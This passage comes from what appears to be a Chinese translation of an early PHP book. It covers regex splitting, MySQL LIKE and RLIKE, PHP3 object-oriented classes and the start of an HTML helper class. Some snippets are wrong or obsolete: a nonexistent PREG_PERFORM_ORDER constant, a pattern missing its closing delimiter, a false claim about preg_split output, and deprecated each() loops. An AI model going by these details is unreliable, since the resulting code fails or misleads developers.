// Fill $matches[1] with the parameters that
// need replacing.
preg_match_all($pattern, $target, $matches);
```


```
// 使用数组来确定在插值中
// 使用的替换值。
$replacement['honorific'] = "Mr.";
$replacement['last_name'] = "Jones";

// 使用临时变量来保存
// 参数化的字符串。此变量将在
// 替换后保存最终结果。
$result = $target;

// 遍历参数列表。
while (list($key, $value) = each($matches[1])) {

   // 对于每个参数，使用替换
   // 数组中的相应值替换它。
   $result = preg_replace(
      "/{$value}/",
      $replacement[$value],
      $result
   );

   // 显示一些调试信息。
   echo "$key, $value, $result<br>";
}
```

此代码显示

```
0, honorific, Dear Mr. {last_name},
1, last_name, Dear Mr. Jones.
```

此代码的输出显示了所采取的中间步骤。首先，`honorific` 参数被替换为 `Mr.`，然后 `last_name` 参数被替换为 `Jones`。

## 分割示例

要将字符串分割成单词，请这样做：

```
$target = "A Jolly Giant Jumped.";
$result = preg_split("/\W/", $target);
```

执行这些语句后，`$result` 数组为每个单词在目标字符串中都有一个条目。在分割字符串之前，你需要移除任何开头的空格——也许可以通过将 `trim($target)` 作为 `preg_split` 的第三个参数来实现。如果不这样做，分割会创建一个数组元素，其中空格作为数组的第一个元素，这很可能不是你想要的。

要将字符串分割成字符，请这样做：

```
$target = "A Jolly Giant Jumped";
$pattern = "/./";
preg_match_all(
    $pattern,
    $target,
    $matches,
    PREG_PERFORM_ORDER
);
```

执行这些语句后，`$matches[0]` 包含一个数组，其元素是目标字符串的字符。

要根据分隔符序列将字符串分割成字段，请这样做：

```
$target = "Harry:Male:134:41";
$pattern = "/:/";
$result = preg_split($pattern, $target);
```

执行这些语句后，`$result` 数组将包含四个条目，正如你所期望的。然而，如果目标字符串中缺少一个字段，就会发生奇怪的事情。如果 `$target` 是：

```
$target = "Harry:Male::41";
```

`$result` 数组只有两个条目——前两个字段。这意味着目标字符串中不存在的字段必须至少有一个空格字符作为占位符。如果你不关心不存在的字段，可以使用像这样的模式

```
$pattern = "/:+";
```

### MySQL

MySQL 有自己的模式匹配操作符，可以在 SELECT 语句的 WHERE 子句中使用。这些操作符是 LIKE 和 RLIKE。你可以使用 REGEXP 作为 RLIKE 的同义词。

### LIKE

LIKE 操作符执行简单的模式匹配。它只理解两个元字符：

- `%` — 百分号匹配任意数量的字符，甚至零个字符。这意味着 'D%' 匹配 'D'、'Da'、'Dav' 和无限数量的其他字符串。
- `_` — 下划线字符恰好匹配一个字符。

使用 LIKE 操作符很简单，特别是与你之前在本章中读到的 Perl 风格的模式相比。以下示例匹配所有以 "r" 开头的文本：

```
SELECT
  *
FROM
  table
WHERE
  UPPER(field) LIKE 'R%'
```

如果你需要匹配特定数量的字符，下划线元字符很有用。下一个示例匹配以 "1" 开头且长度为三个字符的字段。换句话说，数字 101 到 199。

```
SELECT
  *
FROM
  table
WHERE
  field LIKE '1__'
```

通常，如果需要元字符的正常含义，则使用 `\` 字符对其进行转义。但是，SQL 提供了 ESCAPE 关键字，以增加其语句的灵活性。例如，此示例展示了如何使用感叹号作为转义字符。即使模式中没有使用 `%` 和 `_` 字符，ESCAPE 关键字仍然很方便，可以避免使用反斜杠字符。

```
SELECT
  *
FROM
  table
WHERE
  field LIKE '!autoexec.bat' ESCAPE '!'
```

NOT 操作符告诉 SQL 匹配与该模式相反的内容。使用以下 WHERE 子句

```
WHERE
  field NOT LIKE '1__'
```

匹配除数字 101 到 199 之外的所有值。

### RLIKE

RLIKE，或 regexp，操作符允许你在 SQL 语句中使用更复杂的模式。本章中“正则表达式定义”部分的所有信息都适用于 RLIKE 可用的模式。由于我们已经看了很多模式示例，我将在这里只提供一个。以下示例仅选择指定字段不包含有效电话号码的记录：

```
SELECT
  *
FROM
  table
WHERE
  field NOT RLIKE '[0-9]{3}-[0-9]{3}-[0-9]{4}'
```

### 注意

将 RLIKE 操作符添加到 SQL 语句中几乎肯定会增加它们的处理时间。

## 总结

本章向你介绍了使用正则表达式的模式匹配。首先定义了正则表达式，然后讨论了 POSIX 风格和 Perl 风格的 PHP 函数。接着提到了 LIKE 和 RLIKE MySQL 操作符。

正则表达式描述了你需要查找的文本。模式的所有匹配能力都基于元字符的概念。元字符是具有超出其字面含义的额外含义的字符。例如，句点字符的元含义是匹配目标字符串中除换行符之外的任何字符。

你了解到模式可以包含原子、分支和括号表达式。原子是需要匹配的单个项目。原子后面可以跟 `*`、`+`、`?` 或一个绑定来形成片段。绑定允许你精确匹配原子一定次数。当匹配两个或多个片段时，使用交替（|）元字符。括号表达式匹配一个字符，但允许你指定多种可能性。`[abc]` 匹配任何单个 a、b 或 c 字符。字符类，如 POSIX 的 `[:space:]` 类，匹配一种类型的字符。`[:upper:]` 类匹配所有大写字母。表 9.2 是最基本元字符的列表。

PHP 的五个 POSIX 风格函数在模式匹配方面做得很好。`ereg` 和 `eregi` 都用于基本的文本搜索。`ereg_replace` 和 `eregi_replace` 用于替换匹配的文本。`eregi` 函数不区分大小写。最后一个函数 `split` 根据指定的分隔符将文本分解成组件。

Perl 风格函数需要开始和结束模式分隔符，通常是斜杠字符。但是，你可以使用任何字符代替它。如果模式包含斜杠字符，此功能很有用。Perl 风格函数理解九个选项，如果需要，在结束分隔符之后添加。A 和 E 选项是锚定元字符的替代方案。S 选项让 PHP 研究指定的模式，以期减少搜索所需的时间。非贪婪搜索使用 U 选项执行。X 选项保留供将来使用。你可以使用 i 选项创建不区分大小写的模式，并使用 s 选项强制句点元字符匹配换行符（以及其他所有内容）。最后一个选项 x 忽略非转义的空白，并允许你使用扩展模式表示法。

下一节提供了许多使用正则表达式实现特定目标的示例。描述了每种情况，并显示了匹配该情况的模式。最后几节提到了 SQL `LIKE` 和 `RLIKE` 操作符。虽然 MySQL 支持这些操作符，但其他数据库可能不支持——因此请阅读数据库文档。`LIKE` 操作符执行基本的模式匹配，只有两个元字符（`%` 和 `_`）。百分号匹配任意数量的任何字符，下划线匹配任何单个字符。`RLIKE` 操作符支持本章“正则表达式定义”部分讨论的所有模式功能。

在下一章“面向对象”中，你将被介绍面向对象的编程技术。


# 面向对象

面向对象编程已经存在很多年了。但尽管它有很多好处，大多数程序员还是没有使用它。本章将帮助你快速掌握它，从而比那些仍固守旧过程式编程模式的开发者更具优势。

许多程序员对*面向对象编程*（OOP）感到好奇。但从统计数据来看，真正着手学习面向对象编程术语和技术的人却很少。然而，将面向对象思想融入你的日常编程中会带来好处——例如更易于维护以及更好的代码可重用性。

什么是*对象*？你正在阅读的这本书就是一个对象。你吃饭用的刀和叉也是对象。简而言之，你的生活中充满了对象。真正需要问的是：“什么是类？”你看，面向对象编程中真正的工作是由类来完成的。*类*是变量和函数的组合，旨在模拟一个对象。不幸的是，OOP 有自己的一套特有术语：

- **属性**——类内部使用的变量。
- **方法**——类内部使用的函数。
- **继承**——类可以从一个或多个父类继承属性和方法。在本章后文，你将看到如何将一个名为 `inventory_item` 的通用类用作一个更具体的名为 `pen` 的类的父类。
- **抽象**——对象的信息（其属性）可以以一种将数据的存储方式与访问和使用方式隔离开来的方式被访问。后文，你将了解类属性的 get 和 set 访问器函数。
- **封装**——对象的信息以及操作这些信息的函数（其方法）被存储在一起。`class` 关键字用于将属性和方法分组。
- **多态**——子类可以重新定义父类中已定义的方法。在 PHP3 中，一旦父类的函数被子类覆盖，就无法再使用。因此，这项技术不如它应有的那么有用。据传 PHP4 将为多态提供更好的支持。

## 学习类

在查看面向对象 PHP 代码的具体示例之前，先看一些通用示例会是个好主意。在学习“标准”的面向对象术语时查看通用示例，可以确保你对这些概念有牢固的掌握。如果同时要学习新的 PHP 概念和面向对象概念，可能会因信息过载而遗漏某些内容。

类用于对对象类型进行分组和描述。还记得模式匹配一章中的字符类吗？面向对象世界中的类本质上是一样的。让我们为一家钢笔和铅笔供应商的库存系统创建一些类。先从钢笔对象开始。从库存管理的角度，你会如何描述一支钢笔？

首先，钢笔可能有一个零件编号，而且你需要知道它的数量。钢笔的颜色可能也很重要。那笔芯中的墨水余量呢？对库存系统来说可能不重要，因为所有钢笔都是新的，因此都是满的。

前一段中体现的思考过程称为*建模*。建模就是决定哪些信息应放入对象的过程。本质上，你创建了一个由对象构成的世界模型。

> 术语*对象*和*类*几乎可以互换。它们的区别在于，类被认为是使用计算机语言描述的对象，而对象就仅仅是一个对象。

你如何设计类取决于你的项目。对象——以及它的类——的描述会根据需要完成的工作而变化。例如，如果你要设计一个学校课程安排程序，你的对象将与设计一个统计程序时大不相同。

## 继承，或者说了解你的父类

我们已经讨论了钢笔及其颜色和其他识别特征；在对象术语中，这些特征称为*属性*。图 10.1 展示了在此阶段 pen 类的样子。

```
-------------------------
| Class Name:           |
|     cls_pen           |
|-----------------------|
| Properties:           |
|     part_number       |
|     quantity_on_hand  |
|     ink_color         |
-------------------------
```

图 10.1 cls_pen 类及其属性。

现在已经有了一个类，该进行泛化了。有些人先泛化；我喜欢先查看细节，再提取共同信息。当然，通常你需要先拥有多个类，共同特征才会显现，但因为我已经把这个例子想得很透彻，所以稍微走点捷径。

很明显，所有库存项都需要一个零件编号，并且每个都有其自己的现有数量值。因此，你可以创建一个比 pen 更通用的类。我们称之为 inventory_item。图 10.2 展示了这一新类。

```
--------------------------
| Class Name:            |
|     cls_inventory_item  |
|------------------------|
| Properties:            |
|     part_number        |
|     qty_on_hand        |
--------------------------
```

图 10.2 cls_inventory_item 类及其属性。

由于 `cls_pen` 的一些属性现在也在 `cls_inventory_item` 中，你需要某种机制或技术来避免信息重复。这就是*继承*发挥作用的地方。inventory_item 类成为 pen 类的父类。图 10.3 展示了这两个类现在如何关联。

PARENT

```
| cls_inventory_item |
|---------------------|
| part_number         |
| qty_on_hand         |
```

CHILD

```
| cls_pen             |
|---------------------|
|     ink_color       |
| Inherited:          |
|     part_number     |
|     qty_on_hand     |
```

**图 10.3** `cls_inventory_item` 类及其属性。

> 尽管你将在本章稍后才会读到方法，但你需要了解一些关于继承和方法的重要提示。首先，方法像属性一样被继承。其次，使用继承的方法有助于更快地创建程序，因为你正在使用已经可用的功能。因此——至少在理论上——你的程序应该更容易创建。

## 抽象，或者说关于思考

为了讨论抽象，你需要一个*模型*一词的可用定义。比如，“模型是某事物的表示”。假设你搭建了一辆汽车的物理模型；原汽车中的某些物品在模型中会缺失，例如火花塞。如果你搭建一个房屋模型，你不会包含实际管道。同样，你建立的计算机模型也具有一定程度的抽象：细节无关紧要，重要的是形式。

面向对象编程中的抽象也是如此。作为程序员，你以接口的形式将你的对象模型展示给其他程序员。实际上，接口只是一些文档，告诉其他人如何与你的类交互。没人需要知道你的类到底做了什么。只要说明文件对象存储了文件名和大小，并以英文呈现信息就够了。无论其内部格式是压缩的、俄文的，还是存储在内存或硬盘上，对类的用户来说都无关紧要。

我建议你在设计对象或类时，偶尔从工作中抽身出来。尝试通过其他程序员的视角来审视最终系统，以检查不一致之处以及不必要的关联。

到目前为止，你已经从抽象层面了解了抽象。现在让我们使用之前创建的 pen 类来查看一个具体的抽象示例。pen 类只有一个属于它自己的属性，即墨水颜色（其余属性都是继承来的）。为了便于讨论，墨水颜色可以是 “blue”、“black” 或 “red”。当 pen 对象被创建时（创建机制目前并不重要），会为其分配一种特定的颜色。我们暂时使用 “blue”。下面是一行创建对象的代码：

```
$pen = new cls_pen("blue");
```

现在钢笔对象已经创建完成。你是否在意墨水颜色的内部格式是字符串 “blue” 还是数字 1？如果由于你预计要使用数百万个对象，为了节省计算机内存，内部格式从字符串改为数字，会怎样？只要接口不变，使用该类的程序就不需要改变。

通过保持类的外部接口不变，就使用了抽象。这减少了每次程序所使用的类发生更改时，对程序进行改造所需的时间。

## 多态，或者说重写方法

*多态*比继承稍微复杂一些，因为它涉及方法。让我们设想一些属于库存程序的方法。例如，一个用于打印属性以便调试的方法，或者一个用于更改现有数量（qty-on-hand）的方法？图 10.4 展示了带有这两个函数的 inventory_item 类。


| 类名 | cls_inventory_item |
|------------|--------------------|
| 方法 | print_properties, change_qty_on_hand |
| 属性 | part_number, qty_on_hand |

**图 10.4** *包含方法的 cls_inventory_item 类。*

这些新函数会被 pen 类自动继承。然而，你遇到了一个问题，因为 `print_properties` 函数不会打印墨水颜色。你有三个选择：

- **更改 inventory_item 类中的函数**——这是一个糟糕的选择，因为通用的库存物品不应该知道任何关于库存对象的独特信息，只应知道通用或常见的信息。

- **在 pen 类中创建一个名为 print_pen_properties 的新函数**——这是另一个糟糕的选择。通过这种方式解决问题，每个类很快都会有自己的打印函数，而跟踪这些函数名称将是一场噩梦。

- **在 pen 类中创建一个名为 print_properties() 的新函数以覆盖 inventory_item 中的定义**——这是一个好的解决方案。事实上，这就是多态的工作原理。

如果当前类没有定义你试图调用的方法，PHP 会在父类中查找。如果该方法仍然找不到，PHP 会继续搜索父类的父类。以此类推。换句话说，会搜索类*层次结构*。层次结构是信息的有组织树状结构。在我们目前的示例中，你有一个两级的层次结构。类的层次结构有可能有很多层深。事实上，这是相当常见的。图 10.5 展示了一个具有多层的类层次结构。

**图 10.5** 一个具有三层的类层次结构。

可能值得提及的是，有些类只包含信息而不包含方法。然而，据我所知，没有专门的术语来反映这一点。这些只包含信息的类可以作为辅助类或帮助类。

## 封装，或代码与数据密不可分

关于*封装*，我需要说的并不多。将方法与它们影响的信息放在一起似乎是常识。在早期语言中不这样做，主要是因为当时没有可用的编程工具。手动执行封装所需的额外工作超过了所能获得的收益。

封装的一大优势是，它使得将信息用于非预期目的变得更加困难，从而减少了逻辑错误。例如，如果钢笔以 100 支为一批出售，`change_qty_on_hand` 函数可以反映这一点。只更改一个数量是不可能的。这种对业务规则的强制执行是面向对象编程最大的吸引力之一。

## 对象与 PHP

掌握了本章前半部分讨论的面向对象编程术语后，你准备好查看库存类是如何定义的了：

```php
// 开始类定义。
class cls_inventory_item {
  // 声明一个数组来存放属性值。
  var $props;

  // 定义一个构造函数。
  function cls_inventory_item() {
    $this->props['part_num']    = '';
    $this->props['qty_on_hand'] = '';
  }
}

// 创建一个新对象。
$item = new cls_inventory_item();
```

**class** 关键字开始了定义。语法是：

```php
class *class_name* {
  // php 语句
}
```

在 **class** 关键字之后，声明了 `$props` 变量。属性声明应该始终在方法声明之前。这个变量成为了对象的核心——一个包含对象所有属性的数组。使用数组来存放属性，使你能够创建处理对象属性的函数，而无需担心有多少个属性或它们是什么类型。例如，你可能想编写一个验证布尔属性的函数。如果所有布尔属性的条目都以 `"bln"` 开头，那么对 `$props` 数组的一个简单循环，结合正则表达式 `("bln_.+")` 和一个 `if` 语句，就为这项任务提供了工具。

变量声明之后是类方法。这个类只有一个方法，而且它相当特殊，因为它与类本身同名。当一个类方法与类同名时，它被称为*构造*函数。虽然不是必须的，但通常提供一个构造函数来初始化类属性是个好主意。

PHP 提供了一个名为 `$this` 的特殊变量，这样你就可以从当前对象内部引用当前对象。由于构造函数是由 `new` 关键字调用的，对象尚未被赋值给任何变量。因此，需要存在一个其名称始终已知的特殊变量。`$this` 变量让你能够访问新生对象的属性和方法。

除了是每个对象都存在的一个变量之外，`$this` 在其数据类型上也很特殊。它是一个引用，而不是标量或数组变量。引用变量使用 `->` 表示法（有关更多信息，请参见本章后面的“引用，或指针的值就是我的数据”部分）。例如，以下代码行访问类 `$props` 数组：

```php
$this->props['part_num'] = '';
```

除了额外的 `$this->` 之外，指定数组元素是标准的 PHP 语法。

你可以利用 PHP 在类构造函数中定义默认值的能力。例如：

```php
function cls_inventory_item(
  $part_num = 'Unknown',
  $qty_on_hand = '0'
) {
  $this->props['part_num']    = $part_num;
  $this->props['qty_on_hand'] = $qty_on_hand;
}
```

为了创建一个具有不同属性的对象，请使用 **new** 关键字并向构造函数调用添加参数。

```php
// 创建数量为 10 的物品
$item1 = new cls_inventory_item("ID1233", "10");

// 创建数量为 23 的物品
$item2 = new cls_inventory_item("ID753", "23");
```

## 使用命名参数

使用*命名参数*的概念已迅速被程序员接受。我第一次接触它是在使用 Microsoft Word 的脚本语言时。命名参数涉及将一个单独的数组传递给函数，而不是传递单独的参数：

```php
$item = new cls_inventory_item(
  array(
    "part_num"    => "ID2312",
    "qty_on_hand" => "10"
  )
);
```

许多程序员喜欢这种技术，因为：

-   参数的顺序无关紧要，因为每个参数都有自己的名称。被调用的函数可以通过名称而不是参数列表中的位置来引用其参数。

-   参数始终通过名称可知，因此函数调用更容易理解。这是另一种形式的自文档化。

-   你可以轻松添加新参数，而无需修改现有代码。只需插入新行并开始输入即可。

需要更新 `cls_inventory_item` 函数以理解参数数组：

```php
function cls_inventory_item($in_props) {
  $this->props['part_num']    = $in_props['part_num'];
  $this->props['qty_on_hand'] = $in_props['qty_on_hand'];
}
```

这个构造函数只是简单地将 `$in_props`（input properties 的缩写，输入属性）数组中的条目复制到类 `$props` 数组中。你能想到一种更优雅的复制技术吗？如果类需要一个新属性会怎样？

与其为每个属性添加一行

```php
$this->props[property_name] = $in_props[property_name];
```

代码，可以使用 `while` 循环来执行复制任务：

```php
function cls_inventory_item($in_props) {
  while (list($key, $value) = each($in_props)) {
    $this->props[$key] = $value;
  }
}
```

你可能比我先想到了，并意识到通过自动将构造函数的参数复制到属性数组，我们失去了设置默认值的能力。让我们找一种方法恢复这个能力。

第一步是创建一个类属性来保存默认值：

```php
var $defaults = array(
  'part_num'     => ''
 ,'qty_on_hand' => '0'
);
```

第二步是更改构造函数，使其在读取输入参数数组之前先读取默认数组：

```php
function cls_inventory_item($in_props) {
  while (list($key, $value) = each($this->defaults)) {
    $this->props[$key] = $value;
  }
  while (list($key, $value) = each($in_props)) {
    $this->props[$key] = $value;
  }
}
```

新的构造函数为每个属性设置默认值，然后用 `$in_props` 数组中的任何值覆盖这些值。如果你需要创建一个 `qty_on_hand` 使用默认值的库存物品，请使用：

```php
$item = new cls_inventory_item(array(
  "part_num"    => "ID2312",
));
```

## 使用继承

*继承*是将通用对象类精炼为更小、更精确的类的过程。例如，本章前面的 pen 类是从 `inventory_item` 类派生出来的。pen 类继承了父类 `inventory_item` 的属性和方法。以下代码展示了如何定义 pen 类；`inventory_item` 类在前面的“使用命名参数”部分已经定义：

```php
class cls_pen extends cls_inventory_item {

  function cls_pen($in_props) {
```


## 访问类属性

抽象背后的一个概念是，类外部的代码不应该知道类内部的细节。那么，如何访问这些数据，同时又坚持抽象原则呢？这就需要使用访问器函数。可以对属性执行两个基本操作：获取其值和设置其值。因此，你可以像这样向钢笔类添加这些函数：

```php
function get_ink_color() {
  return($this->props['ink_color']);
}

function set_ink_color($value) {
  $this->props['ink_color'] = $value;
}
```

这些函数的调用方式如下：

```php
$pen = new cls_pen(
  array(
    "part_num"   => "ID2312"
    ,'ink_color' => 'green'
  )
);

$pen->set_ink_color('purple');

echo $pen->get_ink_color();
```

另一种选择是使用通用函数来设置和获取值：

```php
function get($property) {
  return($this->props[$property]);
}

function set($property, $value) {
  $this->props[$property] = $value;
}
```

这些函数的调用方式如下：

```php
$pen->set('ink_color', 'purple');
echo $pen->get('ink_color');
```

- 拥有通用的访问器函数意味着你无法进行基于属性的有效性检查。例如，`qty_on_hand`属性的值变为负数是没有意义的。但如果你想让你的`set_qty_on_hand`函数在数量值为负时显示警告、发送邮件或以其他方式处理，该怎么办？
- 拥有通用的访问器函数也意味着你无法进行任何基于属性的安全控制。例如，如果你想让鲍勃知道雇主的姓名但不知道他们的薪水，在这种情况下你无法实现。

然而，最重要的原因是消除错误的来源。输入属性名称时很容易出错。使用通用的访问器函数时，PHP无法捕获这个错误，一个非常微妙、难以发现的错误就会感染你的程序。例如，以下代码是错误的：

```php
$pen->set('ink_colr', 'green');
```

如果你在使用特定的访问器函数时犯了同样的拼写错误，PHP引擎会报告错误，因为`set_ink_colr`函数将不会被找到：

```php
$pen->set_ink_colr('green'); // 运行时错误！
```

## 多态函数

*多态*，虽然是一个很大的词，但概念很简单。它意味着在基类中定义的方法会覆盖在父类中定义的方法。下面的例子阐明了这个概念。假设你有两个类，A和B，B是A的子类。如果在B类中找不到某个函数，PHP会在A中查找该函数。一些说明此原则的代码：

```php
class A {
  function A() {
  }

  function dspTwo() {
    echo "A: Two<br>";
  }
}

class B extends A {
  function B() {
    $this->A();
  }
}

$object = new B();
$object->dspTwo();
```

这段代码显示

A: Two

因为显示了`A: Two`文本，所以很明显调用了A类中的`dspTwo`函数。如果你在B类内部创建第二个`dspTwo`函数，PHP将调用该函数：

```php
class A {
  function A() {
  }

  function dspTwo() {
    echo "A: Two<br>";
  }
}

class B extends A {
  function B() {
    $this->A();
  }

  function dspTwo() {
    echo "B: Two<br>";
  }
}

$object = new B();
$object->dspTwo();
```

这段代码显示

B: Two

## 类中的类

现在你已经看过了几个类定义，你可能意识到一些类属性本身将是对象。例如，你可能有一个包含库存对象的计费对象，或者你可能在仓库对象中使用汽车对象。可能性是无穷无尽的。

为了说明这一点，让我们将钢笔类的`ink_color`属性从字符串转换为类。首先，需要定义`ink_color`类，如清单10.1所示。

### 清单10.1 cls_ink_color.inc—声明ink_color类

```php
<?php // cls_ink_color.inc

class cls_ink_color {
  var $props;

  var $defaults = array(
    'color' => ''
  );

  // 限制有效颜色的数量，
  // 这样设置颜色时
  // 可以进行验证。
  var $valid_colors = array(
    'blue'
    ,'brown'
    ,'green'
  );

  var $default_color = 'UNKNOWN';

  // 类构造函数。只有一个参数，
  // 不需要命名参数。
  function cls_ink_color($color) {
    if (! $this->set_color($color)) {
      affy_error_exit('CLS_INK_COLOR: Bad Color!');
    }
  }

  // 遍历有效颜色列表，
  // 将每个颜色与请求的颜色进行比较。
  // 如果请求的颜色有效，
  // 则返回true，否则返回false。
  function validate_color($color) {
    while (
      list($key, $value) = each($this->valid_colors)
    ) {
      if (preg_match("/$value/i", $color))
        return(1);
    }
    return(0);
  }

  // 用于设置颜色值的访问器函数。
  // 如果请求的颜色未知，
  // 则使用默认值并返回false。
  function set_color($color) {
    if ($this->validate_color($color)) {
      // 所有颜色值都以大写形式存储，
      // 以确保数据一致性。
      $this->props['color'] = strtoupper($color);
      return(1);
    }
    else {
      $this->props['color'] = $default_color;
      return(0);
    }
  }

  // 用于获取颜色值的访问器函数。
  function get_color() {
    return($this->props['color']);
  }
}
?>
```

`ink_color`类只有一个新技术——在set访问器函数中对值进行验证。如果类不知道请求的颜色（即不是`$valid_colors`数组中的元素），则使用默认颜色。

就本书而言，简单地使用`affy_error_exit`函数（在`common.inc`中定义）退出脚本是可以接受的。然而，在生产系统中，需要更巧妙地处理错误。通常，会显示一个页面，为用户提供几个选项，例如重新输入信息或告知他们如何联系客户支持。

既然`ink_color`类已经定义好了，就需要修改`cls_pen`类以与其协同工作，如清单10.2所示。

### 清单10.2 cls_pen.inc—声明pen类

```php
<?php // cls_pen.inc

class cls_pen extends cls_inventory_item {
  var $props;

  function cls_pen($in_props) {
    // 通过调用父类构造函数
    // 初始化属性。
    $this->cls_inventory_item($in_props);

    // 通过创建新的ink_color对象
    // 初始化ink_color属性。
    $this->props['ink_color'] =
      new cls_ink_color($in_props['ink_color']);
  }

  // get和set ink_color访问器函数
  // 需要通过对象引用进行操作。
  function get_ink_color() {
    $ref = $this->props['ink_color'];
    return($ref->get_color());
  }

  function set_ink_color($value) {
    // $ref变量引用的是
    // ink_color对象的副本。
    $ref = $this->props['ink_color'];

    // 更改对象的副本。
    if (! $ref->set_color($value)) {
      affy_error_exit('CLS_PEN: Bad Color!');
    }

    // 更新属性以指向
    // 已更改的对象。
    $this->props['ink_color'] = $ref;
  }
}
?>
```

重写的`cls_pen`构造函数函数非常直接。在初始化标量属性之后，创建一个`ink_color`对象并将其分配给`ink_color`属性。该属性实际上不是新的类对象；它是对新创建对象的引用。这个区别以及`set_ink_color`函数的奇怪之处是我们接下来要讨论的主题。

## 引用，或我的指针值就是我的数据

引用是标量变量，它们不直接保存数据；它们只是指向保存数据的内存位置。这就是为什么需要使用`->`符号。`->`操作符的右侧指定了你需要使用的属性或方法。

PHP不完全支持对象。例如，你不能使用多态来执行被覆盖函数的父版本。这种不完全支持的另一个后果是，你永远不会有对单个对象的两个引用。当你将引用分配给第二个变量时，会创建对象的副本，新引用指向该第二个副本。以下示例证明了这一点：

```php
require("cls_ink_color.inc");
require("cls_inventory_item.inc");
require("cls_pen.inc");

// 创建一个新的绿色钢笔对象。
$pen = new cls_pen(
    array(
        "part_num"  => "ID2312"
        ,'ink_color' => 'green'
    )
);

echo 'The color of $pen is: ';
```


```
echo $pen->get_ink_color() . "<br>";

// Create a copy of the pen object..
$copy = $pen;

echo 'The color of $copy is: ';
echo $copy->get_ink_color() . "<br>";

echo '<br>Changing $pen to blue.<br>';
$pen->set_ink_color('blue');

echo '<br>';
echo 'The color of $pen is: ';
echo $pen->get_ink_color() . "<br>";
echo 'The color of $copy is: ';
echo $copy->get_ink_color() . "<br>";

echo '<br>Changing $copy to brown.<br>';
$copy->set_ink_color('brown');

echo '<br>';
echo 'The color of $pen is: ';
echo $pen->get_ink_color() . "<br>";
echo 'The color of $copy is: ';
echo $copy->get_ink_color() . "<br>";
```

## 此代码显示

```
The color of $pen is: GREEN
The color of $copy is: GREEN

Changing $pen to blue.

The color of $pen is: BLUE
The color of $copy is: GREEN

Changing $copy to brown.

The color of $pen is: BLUE
The color of $copy is: BROWN
```

由于你可以独立地更改每个变量（`$pen` 和 `$copy`）的颜色，这证明了它们是两个独立的对象。

## 有用的类函数

为了简洁起见，本章示例中省略了以下两个函数。然而，它们应该为所有类定义：

- **get_class_name**——该函数简单地返回其所属类的名称。当函数需要确定某个参数属于哪个类时，它会很有用。
- **dsp_properties**——该函数适合用于调试。调用时，它会显示类名、每个属性及其值。

## 小结

本章是对对象的介绍。它并不想让你一夜之间成为对象专家。希望所提供的信息足够让你理解对象术语，并能够阅读他人的程序。你也可以创建自己的方法和属性。然而，如果你需要创建不止几个小对象，请考虑阅读一本专门介绍面向对象编程的书。我之所以给出这个建议，是因为当涉及的对象不止几个时，对象之间的关系会迅速变得复杂。

你在本章开头已经了解到，面向对象编程有其自己的术语。这些术语让你能够以独立于计算机语言的方式思考对象。在将对象或类描述为一组属性（信息）和方法（函数）之后，就可以使用 PHP、C++、Perl 或 Delphi 来编写该类。编程语言被降为充当实现细节的角色。

面向对象编程的四大概念是抽象、封装、继承和多态。抽象意味着将属性的访问方式与其存储方式隔离开来。封装意味着属性以及作用于属性的方法被定义在一起。继承意味着一个类（子类）可以由另一个类（父类）派生而来，并且子类将拥有父类中定义的所有属性和方法。多态意味着子类只需使用相同的属性名或方法名，就可以覆盖父类中定义的属性和方法。

在定义了这些术语之后，你阅读了为库存系统创建一些类的内容；其中描述了 `inventory_item` 类和 `pen` 类。`pen` 类派生自 `inventory_item` 类。这些类在示例中被用来说明抽象、多态、封装和继承是如何工作的。

接下来，这些概念在 PHP 代码中得到了展示。`cls_inventory_item` 被创建完成，包含一个 **构造函数** 方法和一个用于保存属性值的 `$props` 数组。当使用 **new** 关键字创建对象时，会调用构造函数方法。`$this` 变量始终引用当前对象，并且只有在类方法内部使用时才有效。`->` 运算符被引入，用于将引用变量（如 `$this`）链接到类的属性和方法。

命名参数是一种将数组传入方法的技术。数组内部是“真正的”参数，每个数组条目对应一个参数。该技术使得真正参数的顺序无关紧要，方法调用更易于理解，并且新参数也容易添加。

我们简要讨论了访问器函数，并看到为每个属性使用单独的 get 和 set 方法，比使用通用的 get 和 set 方法更好。你还看到了一个类如何包含另一个类的示例。`pen` 类使用这种技术来保存一个 `color` 类的实例。

下一章“插曲三——创建一个 HTML 模块”使用 OOP 技术来隐藏从 PHP 中生成 HTML 所涉及的复杂性。

## 插曲三：创建一个 HTML 模块

PHP——或任何网页脚本语言——有一个不太美观的方面，那就是 HTML 与脚本语言如何交互。频繁在脚本模式和 HTML 模式之间切换，破坏了 PHP 代码的流畅性，使得脚本难以跟踪。本章探讨如何始终停留在 PHP 模式，同时仍然生成 HTML 标签。

我不羞于承认，最初、最终，而且很可能永远，我都是一名程序员。我以 if 语句和 for 循环的方式思考。因此，当我被迫从正在使用的编程语言切换到 HTML 标签时，这种过渡有些别扭。对我来说，一眼就能理解下面的代码要容易得多：

```
<?php
  echo '<table border="0">';
  for ($iindex = 0; $iindex < 10; $iindex++) {
    echo "<tr><td>Cell $iindex</td></tr>";
  }
  echo '</table>';
?>
```

相比这个：

```
<table border="0">
<?php for ($iindex = 0; $iindex < 10; $iindex++) { ?>
  <tr><td>Cell <?php echo $iindex; ?></td></tr>
<?php } ?>
</table>
```

你能找出 `<?php .. ?>` 配对吗？调试和维护这种类型的代码会有多困难？

不幸的是，使用正确的 HTML 需要双引号。而双引号在 echo 语句中会引起问题，因为当你需要变量插值时，不能总是使用单引号字符串。我尝试通过开发一个用于 HTML 的 PHP 类来缓解这个问题。

## HTML 类的目标

在开始编写代码之前，需要完成的重要步骤之一是弄清楚代码应该实现什么。那么，一个 HTML 类应该做什么呢？

- 消除使用 echo 语句生成 HTML 的需求。这一目标应使 PHP 代码更易于理解，因为不需要再对双引号进行转义。
- 遵循 Java 的用户界面模型。简而言之，先定义元素，再将其添加到更大的元素中。
- 为 HTML 标签提供默认属性。HTML 中很多内容都涉及重复的信息，例如背景颜色和字体大小。
- 允许将网页元素保存到数据库中。通过提供缓存 HTML 元素（如下拉选择框）的能力，在生成后续网页时可以节省宝贵的处理时间。

> 在继续之前，让我强调一下，即将开发的这个模块并非为访问量很大的生产环境而设计。该模块从未针对效率进行负载测试。相反，它只是作为一个“思想实验”而开发的。话虽如此，我确实在我的网站中使用了这个模块。效果可能因人而异（俗话说）。

**注**

## 形成基类

> 本节代码可在 ch11/01 目录中找到。

**注**

